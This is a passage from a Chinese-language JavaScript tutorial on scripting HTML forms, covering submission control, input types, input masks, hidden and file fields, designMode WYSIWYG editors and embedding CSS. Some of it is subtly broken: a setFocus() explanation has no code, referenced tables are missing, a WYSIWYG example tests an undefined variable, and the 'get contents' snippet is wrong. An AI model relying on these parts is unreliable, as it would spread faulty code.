    <p><label for="username" accesskey="u">Username: </label>
        <input type="text" name="username" id="username"></p>
    <p><label for="password" accesskey="p">Password: </label>
        <input type="password" name="password" id="password"></p>
    <p><input type="submit"></p>
</form>

<h1>Sign up for an Account!</h1>
<form name="signupForm" id="suForm">
    <p><label for="dusername" accesskey="u">Desired Username: </label>
        <input type="text" name="username" id="username"></p>
    <p><label for="dpassword" accesskey="p">Desired Password: </label>
        <input type="password" name="password" id="password"></p>
    <p><input type="submit"></p>
</form>
</body>
</html>
```

这些表单每一个都具有 `name` 和 `id` 属性。你可以通过它们在 DOM 中的位置，或者通过其名称或 ID 作为哈希来访问第一个（`signinForm`）：

```javascript
var signinForm = document.forms[0];
signinForm = document.forms["signinForm"];
```

同样，第二个表单可以通过其位置和名称进行引用。鉴于它是文档中的最后一个表单，你可以使用 `forms[]` 集合的 `length` 属性：

```javascript
var signupForm = document.forms[document.forms.length-1];
signupForm = document.forms[1];
signupForm = document.forms["signupForm"];
```

获取任一表单引用的更现代的方法是使用它们的 ID 和 `document.getElementById()`：

```javascript
signinForm = document.getElementById("siForm");
signupForm = document.getElementById("suForm");
```

表单的 `name` 和 `id` 属性可以相同，但并不一定需要相同。当你给表单一个 `name` 属性时，你还增加了通过名称作为 document 对象的属性来引用它的便利性：`document.myFormName`。

表单字段也是如此。下面的示例显示了如何获取本节之前所示的 `signupForm` 表单的引用，并从中提取信息：

```javascript
// 使用 forms 集合获取引用
var fobj = document.forms["signupForm"];
document.write("elements:" + fobj.elements +"<br />");
document.write("length:" + fobj.length +"<br />");
document.write("name:" + fobj.name +"<br />");
document.write("acceptCharset:" + fobj.acceptCharset+"<br />");
document.write("action:" + fobj.action +"<br />");
document.write("enctype:" + fobj.enctype +"<br />");
document.write("encoding:" + fobj.encoding +"<br />");
document.write("method:" + fobj.method +"<br />");
document.write("target:" + fobj.target);
```

# 表单元素

没有输入框，表单就不是表单。共有 12 种基本的输入类型。其中一些是真正的 `input` 元素，另一些是如 `select` 和 `textarea` 类的自定义元素。参见下表这些元素及其 DOM `type` 属性值的完整列表：

到目前你可能已经使用过表单并熟悉它们的语法。如果没有，在本章稍晚部分你将看到每种类型。某些字段类型还支持如 `change` 等事件，该事件在字段值被修改时触发。某些字段接受键盘事件，如 `keydown`、`keyup` 和 `keypress`。

# 表单操作

现在我将花一些时间谈论在 JavaScript 级别对表单实际上可以做的细节。特别是我将查看控制何时以及如何提交表单，以及控制表单字段焦点和交互性的基础。

## 提交和重置表单

表单真的只有两个方法：`submit()` 和 `reset()`。你可以直接在表单对象上调用它们：

```javascript
myFormObj.submit();
myFormObj.reset();
```


如果你想创建一个自定义按钮，这非常有用。你可以将 `submit()` 调用连接到按钮的 `onclick` 事件上。因此，按钮甚至不需要在表单内部：

```html
<a href="#" id="submitButton" onclick="document.signupForm.submit();return false;">提交表单</a>
```

值得注意的是，当以此方式提交表单时，`onsubmit` 事件不会触发。如果你打算这样做，你应该将你的验证代码与 `submit()` 的调用结合起来。此外，现在在 Web 表单中包含重置按钮已并不常见。原因之一与意外重置有关，因为用户有时在点击之前并不阅读按钮。

# 使用 onsubmit 事件

拦截 `onsubmit` 事件对于你想执行某些检查或可能拒绝提交也是有用的。让我们首先使用内联事件绑定来实现：

```html
<form id="signupForm" name="signupForm" action="signup.php" onsubmit="return validateForm(this)">
    <input type="submit">
</form>
```

注意使用 `this` 关键字在函数调用时传递表单对象的引用。此外，如果我的 `validateForm()` 函数返回 `false`，这将取消表单提交：

```javascript
function validateForm(formObj) {
    // 取消表单提交
    return false;
}
```

然而，当你转向无侵入事件绑定（unobtrusive event attachment）时，情况会有所不同。像任何 DOM 事件一样，你可以像第 12 节讨论的那样使用 DOM2 事件监听器来绑定它。现在让我们使用无侵入事件绑定来实现相同的操作：

```javascript
var sForm = document.getElementById("signupForm");
if (document.attachEvent) {
    sForm.attachEvent("onsubmit", validateForm);
} else {
    sForm.addEventListener("submit", validateForm, false);
}
```

如果你愿意，可以使用第 12 节中提到的技术来取消默认行为。在 W3C 浏览器中，这涉及事件对象上的 `preventDefault()` 方法；而在 Explorer 中，这涉及事件对象的 `returnValue` 属性：

```javascript
function validateForm(e) {
    // 取消表单提交
    // 首先使用 W3C 方法
    if (e.preventDefault)
        e.preventDefault();
    else
        e.returnValue = false; // 针对 IE
}
```

请记住，如果表单是通过其 `submit()` 函数提交的，该事件将不会触发。

## 防止通过回车键提交

Web 表单的一个相当烦人的特性是，用户可能会在非本意的情况下意外提交表单。这通常发生在他们编辑文本字段时，不经意地按了键盘上的 Enter 键。在正常情况下，这会触发后传（post-back）。你可以通过实现严格的表单验证（要求每个字段）来解决这个问题，但即使如此，如果用户想在提交前返回并修改某些答案，他们仍然可能意外提交。解决此问题的方法之一是始终拒绝表单提交，除非提交是以规定的方式发生的——即点击提交（Submit）按钮。

以以下表单为例：

```html
<form action="signup.php" onsubmit="return false;">
    Text: <input type=text>
    <input type="button" onclick="this.form.submit()" value="Submit">
</form>
```

在这个表单中，我做了两个与其他表单不同的处理。首先，为 `onsubmit` 事件绑定了 `return false`。这将阻止所有正常提交的通过。然后，我省略了对真正的 `<input type=submit>` 按钮的使用，而是选择了 `type=button`。如果我不这样做，当用户在文本框内按 Enter 键时，输入元素的 `onclick` 事件将会触发。当我使用标准的按钮类型时，这种情况就不会发生。当用户最终在按钮上按 Enter 或点击它时，`onclick` 事件将触发，表单将通过 `this.form.submit()` 提交，而不会先触发 `onsubmit`。

## 启用和禁用字段

有时在用户输入数据时将某些表单字段设为“禁用”，并在满足特定条件时重新启用是有用的。表单字段都有一个布尔属性 `disabled`。字段也会动态对该属性的变化做出响应，因此你可以使用它来动态更改字段的外观和行为。在以下示例中，只有当所有字段都有文字后，提交按钮才会启用：

```html
<form action="signup.php" name="signupForm">
    Text1: <input type=text> <br />
    Text2: <input type=text> <br />
    Text3: <input type=text> <br />
    <input type=submit>
</form>
<script type="text/javascript">
    var els = document.signupForm.elements;
    for (var i = 0; i < els.length; i++) {
        els[i].onblur = enableInputs;
        if (i == els.length-1) {
            els[i].disabled = true;
        }
    }
    function enableInputs() {
        var els = document.signupForm.elements;
        var disableSubmit = false;
        for (var i = 0; i < els.length; i++) {
            if (els[i].type == "text" && els[i].value.length == 0) {
                disableSubmit = true;
                break;
            }
        }
        els[els.length-1].disabled = disableSubmit;
    }
</script>
```

在示例顶部，我有一个包含三个文本字段和一个提交按钮的表单。然后是一个脚本块。这里发生的第一件事是我获取表单中所有元素的引用并对它们进行迭代。对于每个元素，我将函数 `enableInputs()` 绑定到字段的 `onblur` 事件上。如果 `i == els.length-1`（即，如果这是组中的最后一个字段——提交按钮），则禁用该字段。现在提交按钮变灰并禁用了。当用户在每个字段中输入文字时，他们在完成并离开字段时会触发 `onblur` 事件。这导致 `enableInputs()` 被执行，其中我再次遍历元素，检查每个文本字段（`els[i].type == "text"`）的值是否大于 0。如果不是，它会将 `disableSubmit` 设置为 `true`。最终，我将提交按钮设置为 `disableSubmit` 相等的任何值。当所有文本字段都有文字时，提交按钮将亮起，用户就可以提交表单。

## 防止重复提交

表单的另一个烦人的行为（或者说是用户的行为）是双重提交。你能想象进入这样一种局面吗：点击提交购买一张 DVD，结果看着它加载了 30 秒，并怀疑自己是否真的点击了提交？一个聪明的用户会等它加载一小时再尝试一次，但许多人缺乏这种耐心，会反复点击直到交易完成——这会导致多次交易。幸运的是，有一种简单的方法可以防止。再次，你想放弃 `input type=submit` 按钮，而是使用另一种按钮（`type=button`）。然后，在 `onclick` 事件中，禁用按钮并提交表单：

```html
<form action="signup.php" name="signupForm">
    Text: <input type=text>
    <input type="button" onclick="this.disabled=true; this.form.submit()" value="Submit">
</form>
<script type="text/javascript">
    document.signupForm.elements[document.signupForm.elements.length-1].disabled=false;
</script>
```

前一个示例的最后部分是一个重新启用按钮的脚本块。为什么需要这个？在正常情况下，如果用户访问页面，浏览器会记住页面上所有表单元素的状态并返回该状态。这对于想要检查输入并重新提交的用户是一种便利。不幸的是，这也适用于禁用的按钮。添加此脚本块可以防止他们在返回页面时遇到困难。当你为表单实现此功能时，只需记住调整获取按钮引用的方式。目前它指向表单中的最后一个元素（`document.signupForm.elements.length-1`）。

当窗口加载完成时，`setFocus()` 事件会被触发。在这里，它获取页面上第一个表单的引用并寻找第一个 `non-hidden`（非隐藏）字段。一旦找到，它就会调用 `focus()` 并跳出循环。当用户加载页面时，第一个字段已经获得了焦点。如果它是一个文本框（通常如此），用户就可以立即开始打字。注意，在 Internet Explorer 中，只有当第一个字段被启用且可见时，此方法才会生效。

# 使用输入框

现在让我们深入研究单个输入元素在 JavaScript 层面是如何工作的。

## 按钮

实际上有五种不同的按钮输入类型。以下是它们在 HTML 中的表示：

`<input type="submit">`

`<input type="reset">`

`<input type="button">`

`<input type="image">`

`<button></button>`

每个的行为都与上一个略有不同。如你现在所知，`Submit` 按钮的默认行为是将表单提交到服务器。当用户通过在文本字段上按回车键触发表单提交时，就像用户点击了 `Submit` 按钮一样——即使是它的 `onclick` 事件也会触发。`Reset` 按钮将表单恢复到初始状态，尽管这些现在不再经常使用了。输入集合中的第三种按钮类型是 `input type="button"`，是一种更通用的按钮类型，没有默认行为。你必须为它的 `onclick` 事件绑定一个动作，任何操作才会发生。接下来是图像输入类型，它的行为类似于提交按钮，但使用的是图像而不是默认的按钮外观。`Image` 按钮具有其他按钮不具备的以下 DOM 属性：

最后一种按钮类型是 HTML 4 的 `<button>` 元素。它的设计比标准输入更具灵活性，可以在按钮的开始和结束标签之间包含几乎任何 HTML。这种类型的按钮还可以通过 `type` 属性被制成 提交、重置或图像按钮：`<button type="submit">Submit!</button>`

除之外，这种类型的按钮的行为与 `input type=button` 类似。这些输入类型的最后一个关注点是它们支持的事件。与其他表单字段一样，按钮支持 `focus()` 和 `blur()` 方法及事件。当按钮获得焦点时，它会在屏幕上显示为高亮或有一个虚线框。按钮还利用鼠标和键盘事件，如 `onclick`、`mousedown` 和 `mouseup`：

```html
<button onclick="alert('HelloWorld!');">Click me</button>
```

我将在稍后的示例中使用这些事件来说明其他功能。

## 复选框

复选框有两个状态：true 或 false。布尔属性 `checked` 告诉你是它处于哪种状态，并允许你更改该状态。这映射到同名的实际 HTML 属性：`<input type="checkbox" name="emailSignup" id="emailSignup" checked="checked" ></input><input type="checkbox" name="partnerEmails" id="partnerEmails" ></input>`

获取复选框的引用并测试其选中值，可以尝试这样的代码：`document.getElementById('emailSignup').checked`

要检测复选框何时发生变化，你真正需要的只有 `onclick` 事件，它会在键盘和鼠标事件上触发。然而，它在复选框接收新值之前触发。在进行任何类型的验证之前，你必须允许 DOM 更新后再读取新的复选框值：

```javascript
var cbRef = document.getElementById("mybox");
if (document.attachEvent){
    cbRef.attachEvent("onclick", function(e){
        setTimeout(function(target){return function(){handleCBChange(target)}}(e.srcElement|| e.target),0);
    });
} else {
    cbRef.addEventListener("click",function(e){
        setTimeout(function(target){return function(){handleCBChange(target)}}(e.srcElement ||e.target), 0);
    },false);
}
function handleCBChange(target){
    alert(target.checked);
}
```

在这个示例中，我设置了一个 `setTimeout()` 计数器，以便 `handleCBChange()` 函数在 DOM 有机会更新之后接收点击事件，此时复选框将拥有它的新值。否则，我只会得到点击时的值。

## 单选按钮

单选按钮与复选框非常相似，不同的是多个输入控制同一个单一值。当提交一个带有多个相同 `name` 属性的单选输入的表单时，会提交一个值：`<input type="radio" name="favColor" id="radio1" value="red">Red<br /> <input type="radio" name="favColor" id="radio2" value="blue">Blue<br /> <input type="radio" name="favColor" id="radio3" value="orange">Orange<br /> <input type="radio" name="favColor" id="radio4" value="green">Green<br />`

获取此字段的 `value` 有点棘手，因为你必须遍历每个单选输入并测试其 `checked` 属性。当你通过 `forms elements` 集合引用单选对象时，你实际上获取的是该名称所有 按钮的引用。例如，使用前面的 HTML，可以通过这种方式获取名为 `favColor` 的“所有”输入元素的引用：`document.forms[0].elements["favColor"]`

不幸的是，人们并不经常喜欢使用 `elements` 集合。相反，这里有一个更通用的实用函数来获取特定名称的单选输入组的值：`<button onclick="alert( getRadioValueByName('favColor') );">Get the Value</button>`

```javascript
function getRadioValueByName(groupName) {
    var groupCollection = [];
    // 遍历所有表单
    for (var i = 0; i < document.forms.length; i++) {
        if (document.forms[i].elements[groupName]) {
            groupCollection = document.forms[i].elements[groupName];
            break;
        }
    }
    // 现在通过遍历这些元素检查值
    if (groupCollection.length > 0) {
        for (i = 0; i < groupCollection.length; i++)
            if (groupCollection[i].checked == true)
              return groupCollection[i];
    }
}
```

当用户点击按钮时，函数将遍历表单找到正确的表单，然后遍历输入获取 `checked == true` 的那个。然后返回该输入的值。要设置值，操作反相反：`<button onclick="setRadioValueByName('favColor')">Set the Value</button>`

```javascript
function setRadioValueByName(groupName, radioValue) {
    var groupCollection = [];
    for (var i = 0; i < document.forms.length; i++) {
        if (document.forms[i].elements[groupName]){
            groupCollection = document.forms[i].elements[groupName];
            break;
        }
    }
    if (groupCollection.length > 0) {
        for (i = 0; i < groupCollection.length; i++)
            if (groupCollection[i].value==radioValue){
                groupCollection[i].checked= true;
                return;
            }
    }
}
```

如果未找到指定值的单选按钮，函数将静默退出。对于像复选框这样的事件，单选按钮不支持 `onchange` 但支持 `onclick`。你将像处理复选框一样，需要等待 DOM 更新后再轮询新值的相同技巧。

## 下拉列表和多选择框

HTML 中有两种类型的选择框：`select-one` 和 `select-multiple`。它们也是各自相应 `type` 属性的值。同样重要的是伪装 `select-one` 与一个高度大于一的 `select-multiple` 框，因为可以存在一个一次只能选择一个元素的高度选择框。两种类型所示如下：选择你的国家：

```html
<select name="countrySelect" id="countrySelect">
    <option value="US">United States</option>
    <option value="CA">Canada</option>
    <option value="UK">United Kingdom</option>
</select>
```

喜欢的音乐：

```html
<select multiple size=5 name="musicSelect" id="musicSelect">
    <option value="classical">Classical</option>
    <option value="rock">Rock</option>
    <option value="pop">Pop</option>
    <option value="country">Country</option>
    <option value="rap">Rap</option>
</select>
```

注意，这两个输入本质上是相同的，区别在于使用了 `multiple` 单词。当然，它们看起来大不不同，正如你在图 14-3 所示所示。图 14-3。在从 JavaScript 获取值或确定等于值的内容时，它们也略有不同。对于普通的选择框（仅包含一个值的框），操作很简单；只需检查 value 属性即可：`document.getElementById('countrySelect').value`。

然而，对于多选框，你必须执行类似于单选按钮（Radio buttons）的操作，遍历选项集合以收集包含每个被选中值的数组：

```html
<button onclick="alert( getMultiSelectValues('musicSelect') );">获取音乐值</button>
```

```javascript
function getMultiSelectValues(selectID) {
    var sObj = document.getElementById(selectID);
    var selectedValues = [];
    for (var i = 0; i < sObj.options.length; i++)
        if (sObj.options[i].selected == true)
            selectedValues[selectedValues.length] = sObj.options[i].value;
    return selectedValues;
}
```

对于每个选项，我都会检查 `selected` 属性。如果结果为 `true`，则将值添加到结果数组中。最后，从函数返回此数组。若要反向操作，你必须检查每个选项值并手动设置 `selected` 属性：

```html
<button onclick="setMultiSelectValues('musicSelect', ['rock', 'rap'])">设置音乐值为'摇滚'和'说唱'</button>
```

```javascript
function setMultiSelectValues(selectID, selectedValues) {
    var sObj = document.getElementById(selectID);
    // 首先我们把它们都设为 false
    for (var i = 0; i < sObj.options.length; i++)
        sObj.options[i].selected = false;
    // 现在如果在数组中找到了它们，则选择性地将它们设置为 true
    for (var x = 0; x < selectedValues.length; x++)
        for (var i = 0; i < sObj.options.length; i++)
            if (sObj.options[i].value == selectedValues[x])
                sObj.options[i].selected = true;
}
```

与第一个示例一样，我遍历了 options 数组中的每个元素，但在这里我检查每个元素以确定它是否在我们的 `selectedValues` 数组中。如果是，我将 `selected` 属性设置为 `true`。修改可用属性列表也涉及 options 数组的使用。要删除一项，获取其 option 元素的引用并将其设置为 `null`：

```html
<button onclick="removeOneElement('musicSelect', 'pop')">从音乐列表中移除'流行乐'</button>
```

```javascript
function removeOneElement(selectID, selectValue) {
    var sObj = document.getElementById(selectID);
    for (var i = 0; i < sObj.options.length; i++)
        if (sObj.options[i].value==selectValue)
            sObj.options[i]= null;
}
```

你也可以通过将 options 集合的 length 属性设置为零来删除所有项目：`sObj.options.length = 0;`。向列表添加项目涉及 DOM 的使用。首先，你创建一个 `Option` 类的实例并将其附加到集合中：

```html
<button onclick="addOneElement('countrySelect', 'scotland', 'Scotland')">向国家列表添加苏格兰</button>
```

```javascript
function addOneElement(selectID, newValue, newText) {
    var sObj = document.getElementById(selectID);
    sObj.options[sObj.options.length] = new Option(newText, newValue);
}
```

`Option` 构造函数接受两个属性：选项的文本和选项的值。在前面的示例中，通过向 options 集合的末尾添加 `Option` 实例，向国家选择器添加了一个新国家。

## 文本框、文本区域和密码

虽然有几种不同类型的文本输入字段，但只有两种共享 `input` 标签类型：`text` 和 `password`。在大多数情况下，这二者是相同的，只是密码字段会掩盖输入。在底层，它们实际上是相同的，你可以以相同的方式读取和写入值。以下是两者的示例标签：

```html
<input type="text">
<input type="password">
```

另一种文本输入是 `textarea`，它提供多行输入。其 HTML 语法如下：

```html
<textarea cols="20" rows="5" id="description"></textarea>
```

获取和设置值通过 `value` 属性实现：`document.getElementById('userName').value`。与某些字段不同，有一些事件会随这些字段出现。当用户选择文本（或调用 `select()` 方法）时，`change` 事件会被触发，随后是 `keydown`、`keyup` 和 `keypress`。下面的示例将文本绑定到这些事件并将输出放入 DIV：

```html
<html>
<head>
<title>文本输入</title>
</head>
<body>
<form>
文本输入：
<input type="text" id="userName" onchange="handleEvent('change', 'userName')" onkeydown="handleEvent('keydown', 'userName')" onkeyup="handleEvent('keyup', 'userName')" onkeypress="handleEvent('keypress', 'userName')">
<script type="text/javascript">
function handleEvent(evtType, targetID) {
    var elog = document.getElementById("eventLog");
    elog.innerHTML += "<br />" + targetID + ": " + evtType;
    elog.scrollTop = elog.scrollHeight;
}
</script>
<div id="eventLog" style="width:600px; height:300px; overflow:scroll">
<b>事件:</b>
</div>
</body>
</html>
```

如果你在浏览器中运行此代码并与框交互，片刻你将在日志中看到大量活动（图 14-4）。你可以使用这些事件对用户在这些输入框中的操作提供非常精细的控制，正如我将展示的那样。

### 输入掩码

键盘事件对于文本输入特别有用，因为你可以利用它们在输入固定格式数据（如电话号码、数值或任何具有定义模式的文本输入）时提供更好的用户体验。例如，使用方便的 HTML 属性，你可以限制用户允许输入的字符类型仅限数字或仅数字和字母：

```html
<html>
<head>
<title>掩码文本输入</title>
</head> <body>
<form>
仅数字：
<input type="text" validchars="12345670" id="myEntry"><br />
<script type="text/javascript">
    var tObj = document.getElementById('myEntry');
    if (document.attachEvent) {
        tObj.attachEvent("onkeydown", handleMaskedInput);
    } else {
        tObj.addEventListener("keydown", handleMaskedInput, true);
    }
    function handleMaskedInput(e) {
        var target = e.srcElement || e.target;
        // 将键码转换为实际字符
        var char = String.fromCharCode(e.keyCode);
        // 获取有效字符列表
        var validChars = target.getAttribute("validchars");

        // 检查字符是否在列表中
        if (validChars.indexOf(char) == -1) {
            // 首先使用 W3C 方法
            if (e.preventDefault)
                e.preventDefault();
            else
                e.returnValue = false; // 针对 IE
        }
    }
</script>
</form>
</body>
</html>
```

这个示例中发生了几件事。首先，HTML 标签上有一个自定义属性：`validchars`。它旨在包含一个被允许的字符列表。所有其他字符都应该被拒绝。接下来，我同时使用 IE 和 W3C 事件绑定方法挂载了 `onkeydown` 事件。绑定到此事件的函数是 `handleMaskedInput()`。在这里，我获取 HTML 标签的引用，以便使用 `getAttribute()` 获取有效字符字符串。我还从事件对象中提取了 `keyCode` 属性，以确定实际按下的按键（通过 `String.fromCharCode()` 帮助将数字键码转换为实际字符）。最后，我检查按下的字符是否在有效字符列表中。如果是，则允许事件发生；否则，它将使用浏览器各自的阻止默认机制防止按键按下。你可以扩展这种技术来处理文本区域的最大长度、使用正则表达式的特殊自定义验证器，或任何形式的输入验证。你的想象力就是这里的限制。

### 自动选择文本

表单中的常见做法，特别是当用户编辑数据库中的现有记录时，是在用户将焦点设置为字段时预选输入框中的文本。这可以通过结合 `onfocus` 事件与文本输入框原生的 `select()` 方法轻松实现。你可以在图 14-5 图 14-5 在接下来的示例中，我使用内联事件绑定绑定了 `onfocus` 事件。与上一个示例一样，我可以使用非侵入式事件绑定，但为了简洁，将采用这种方式：

```html
<input type="text" value="some text" id="myEntry" onfocus="this.select()">
```

### 自动调整文本区域大小

有时使用 textarea 字段类型时，很难正确调整其大小，以预测用户想要输入多少文本。一些较新的浏览器允许用户点击并拖拽角落来手动调整 textarea 的大小。使用键盘事件，根据内容的高度来自动调整 textarea 是一件简单的事。只需将 `onkeyup` 事件绑定到一个函数上，该函数比较输入框 `scrollHeight` 和内容的 `offsetHeight` 即可：

```html
<html>
<head>
    <title>自动调整大小的 textarea</title>
</head>
<body>
<form>
<textarea id="myArea" cols="50" rows="5" onkeyup="checktbHeight(this)"></textarea>
<script type="text/javascript">
function checktbHeight(tObj) {
    if (tObj.scrollHeight > tObj.offsetHeight) {
        tObj.style.height = (tObj.scrollHeight+10)+"px";
    }
}
</script>
</form>
</body>
</html>
```

每当用户输入按键时，都会进行这种比较。由于 `offsetHeight` 代表整个控件的实际高度，而 `scrollHeight` 代表内部文本的实际高度，你只需要确保实际高度至少等于滚动高度即可。要更改它，我使用了 `style` 对象，这将在第 13 章中介绍。

## 隐藏字段

向服务器传递关于状态或任何你不一定显示给用户的信息的极佳方法是使用隐藏表单字段。隐藏字段与文本字段非常相似，但它们对布局没有影响，是不可见的，因此不会像文本字段那样响应 `onclick`、`onfocus` 或 `onblur` 等事件。隐藏字段与文本字段共享相同的 `value` 属性，这就是对其进行读写的方式。HTML 语法非常简单，使用标准的 input 标签名：

```html
<input type="hidden" id="userName">
```

要向隐藏字段写入数据，获取其引用并使用 `value`：

```javascript
var uNField = document.getElementById('userName');
uNField.value = "daveyjones";
```

## 文件输入字段

一种输入类型——文件输入，与其他文本输入字段略有不同。HTML 标签定义看起来相似：

```html
<input type="file">
```

然而，虽然支持 `onfocus`、`onblur` 和 `onchange` 事件，但你可以读取不能设置文件输入字段的 `value` 属性。这显然是为了保护用户免受试图从其计算机下载特定文件的恶意代码的影响。同样，文件输入字段在 CSS 样式的应用上受到严格限制（以免它们被伪装成其他字段类型）。

## 富文本字段 (WYSIWYG)

另一种位于标准表单元素边缘的输入类型是“富文本”编辑器，也称为 WYSIWYG（所见即所得）编辑器。这些是非标准输入，取决于你是为 Internet Explorer 还是其他浏览器开发，它们的实现大不相同。WYSIWYG 在 Google Docs 或 SharePoint 等应用程序的在线文档编辑器中非常流行。它们在用户编辑 HTML 内容的 Web 内容管理系统中也很流行。这是因为文本背后的格式语法是 HTML。所有这些内容的一个共同缺点是，在实践中，这些编辑器非常脆弱，因为 WYSIWYG 生成的格式定义得糟糕且冗长——特别是用户从 Word 或 Excel 等其他程序粘贴内容时。尽管如此，WYSIWYG 在 Web 上仍有一席之地。关于 WYSIWYG 的一个普遍真理是，网上已经有很多高质量的免费组件，可以将富编辑功能封装到简单的跨浏览器界面中。除非你只需要最基本的功能，否则真的不需要编写自己的。尽管如此，我将向你展示这些东西在底层如何运行的基础知识，以防你确实需要自己制作或为你下载的其中一个添加自己的功能。

在底层，WYSIWYG 编辑器根本不是输入框。它们是 `iframe`。在正常情况下，iframe 就像嵌入在你的文档中的新浏览器窗口。变成 WYSIWYG 的 iframe 像任何其他 iframe 一样开始运行，然后对其应用一些 JavaScript。

从 Mozilla 1.3（Firefox 之前）开始，Netscape 就支持微软对 Internet Explorer 的 `designMode` 功能的实现，该功能基本上可以将 HTML 文档转换为富文本编辑器。在 Firefox 3 中，Mozilla 同样支持 Internet Explorer 的 `contentEditable` 属性，它允许任何元素变得可编辑，尽管这在其他浏览器中支持得并不广泛。`designMode` 功能也于 Opera 9 和 Safari 1.3 及更高版本中引入。要使用此功能，从一个 iframe 开始：

```html
<iframe id="wysiwyg" style="width:500px;height:300px;"></iframe>
```

当你想将其转换为编辑器时，只需设置其文档对象的 `designMode` 属性即可：

```javascript
document.getElementById('wysiwyg').contentWindow.document.designMode="on";
```

// 旧版 Safari - 1.3 到 2.0

```javascript
document.getElementById('wysiwyg').contentDocument.designMode= "on";
```

就这样。现在，在 Internet Explorer、Firefox、Opera、Chrome 和 Safari 中，你简单的 iframe 已经变成了一个功能完全编辑组件，能够接受来自 Excel 和 Word 等程序的富文本粘贴，甚至可以包含图像、加粗、斜体以及你在文字处理程序中预期的许多其他内容。尽管如此，它看起来可能只是一个 iframe，但至少用户现在可以点击它并开始输入，如图 14-6 所示。图 14-6为了让它看起来更像一个文本编辑器，你需要一些如加粗、下划线、斜体等按钮。为了实现这一点，你将使用一个名为 `execCommand()` 的 DOM 命令，它在 iframe 的文档对象上触发。`execCommand()` 的通用语法为：`document.execCommand(aCommandName, aShowDefaultUI, aValueArgument)`这些命令的含义非常简单。第一个参数 `aCommandName` 是要在文档上实现的命令名称。这些命令的列表可以在下表中找到。第二个参数 `aShowDefaultUI` 指定了是否使用该命令的默认用户界面。在 99% 的情况下这可以设置为 `false`，因为只有 Internet Explorer 真正支持此功能。最后一个参数 `aValueArgument` 用于为某些需要信息的命令（如 `insertImage`）提供额外信息（在这种情况下是图像的 URL）。一些最常用的命令可以在下表中找到。通常，这些命令被应用于用户选择的区域或用户光标所在的位置。让我们制作一些使用这些特征的按钮。在这样做之前，我将编写一个简单的接口函数来封装获取 WYSIWYG 引用的操作，这样我就不需要每次都输入 `document.getElementById()` 等内容：

```javascript
function performCommand(cmd, arg) {
    document.getElementById('wysiwyg').contentWindow.document.execCommand(cmd, false, arg);
    return false;
}
```

以下按钮将分别对 WYSIWYG 的选择区域应用加粗、斜体和下划线样式：<button onclick="return performCommand('bold', null)">Bold</button>

<button onclick="return performCommand('italic', null)">Italics</button>

<button onclick="return performCommand('underline', null)">Underline</button>整个程序（连同了所有内置在 WYSIWYG 本身的复杂功能）体积都很小，因为所有这些功能都由浏览器优雅地隐藏了：

```html
<head>
    <title>WYSIWYG</title>
</head>
<body onload="wysiwygStartup()"> <button onclick="return performCommand('bold', null)">Bold</button>
<button onclick="return performCommand('italic', null)">Italics</button>
<button onclick="return performCommand('underline', null)">Underline</button><br />
<iframe id="wysiwyg" style="width:500px; height:300px;"></iframe>
<script type="text/javascript">
function wysiwygStartup() {
    var Editor=document.getElementById('wysiwyg').contentWindow.document;
    Editor.designMode='on';
    // Older Safari - 1.3 to 2.0
    if (doc)
        document.getElementById('wysiwyg').contentDocument.designMode = "on";
}
function performCommand(cmd, arg) {
    document.getElementById('wysiwyg').contentWindow.document.execCommand(cmd, false, arg);
    return false;
}
</script>
</body>
</html>
```

经过一些编辑，在 Internet Explorer 中，我们的简单应用程序可能像 Internet Explorer 中的图 14-7：**图 14-7**最后，为了获取编辑器的内容：`document.getElementById('wysiwyg').contentDocument.designMode= "on"`

级联样式表（CSS）最早于 1996 年引入，尽管它们提供了样式 HTML 文档的方法，但最初的设计目的并不是与 JavaScript 一起使用。直到微软在 `IE 4.0` 中引入了 `style` 对象，这两个世界的融合才开始。今天，如果你对 CSS 有相当充分的理解，就不可能成为一名合格的 JavaScript 开发人员。幸运的是，有一个完整的对象模型可供使用。不过，快速回顾一下 CSS 在文档本身语境下的用法可能是个好主意。

# 在文档中嵌入 CSS

有多种方法可以将 CSS 应用到元素上。最直接的方法是使用 `style` HTML 声明，并使用分号分隔单个属性：

```html
<div style="position:absolute; top:10px; left:10px;">I'm floating in space.</div>
```

这种方法非常有效且得到了通用支持，但也有几个缺点。首先，它可能导致文档非常杂乱。这种嵌入 CSS 的方式在视觉上很难看，而且在调试布局时，难以在视觉上与内容隔离开。另一个缺点是缺乏重用性。CSS 类的一个大优势是可以将相同的属性应用到多个元素上。例如，如果你想定义某种样式，将 `DIV` 标签转换为高对比度信息框，你可以创建一个类并在整个网站中重用它：

```html
<html>
<head>
<style type="text/css">
.infoBox {
    border: 1px solid black;
    padding: 10px;
    margin: 10px;
    font-size: 18px;
    font-weight: bold;
    background-color: #f0f0f0;
    color: black;
}
</style>
</head>
<body>
    <h1>Hello World</h1>
    <div class="infoBox">这段文字将脱颖而出。</div>
    <div class="infoBox">这段文字也会脱颖而出。</div>
</body>
</html>
```

即使是这种策略也留有不足之处，即布局与标记的分离。尽管我已经从 HTML 中删除了样式定义，但它仍然在不必要地膨胀文档体积。相反，我可以将一个外部 CSS 文档与页面关联，并将所有的 CSS 都移动到那里。这将提供两个好处：应用程序中页面之间的重用以及缓存。当像 `CSS` 和 `JavaScript` 文件这样的静态文档外部化时，每次请求引用它们的后续页面时，它们通常不会重新下载。相反，浏览器会判断这是同一个文档且未被修改过。然后，它不会重新下载文档，而是使用内存中的版本，使得 HTML 看起来比其他时候更快。要在你的文档中嵌入外部样式表，请使用 `LINK` 标签：

```html
<html>
<head>
<link rel="stylesheet" href="primary.css" type="text/css"/>
</head>
<body></body>
</html>
```

很多时候，你还可以提供备选的样式表供用户选择应用——例如，为想要大字体和高对比度颜色的用户增强页面可读性。这是通过应用 `rel` 属性 `alternate stylesheet` 和描述性标题来实现的：

```html
<html>
<head>
<link rel="alternate stylesheet" href="highcontrast.css" type="text/css" title="High Contrast Version" />
</head>
<body></body>
</html>
```

用户将能够从浏览器的菜单中手动选择此样式表。然而，对于开发者来说，这造成了不便，因为它意味着要维护多个样式表。幸运的是，还有另一个方便的功能可以简化这个问题。我指的是 `@import` 指令。它允许你在多个其他样式表中包含一个共享样式表：

```css
<style type="text/css">
    @import "common.css";
</style>
```

在标题为“导入样式表”（Imported Stylesheets）的章节中，我将介绍如何使用 `DOM` 导航包含 `@imports` 的样式表。

## 版本

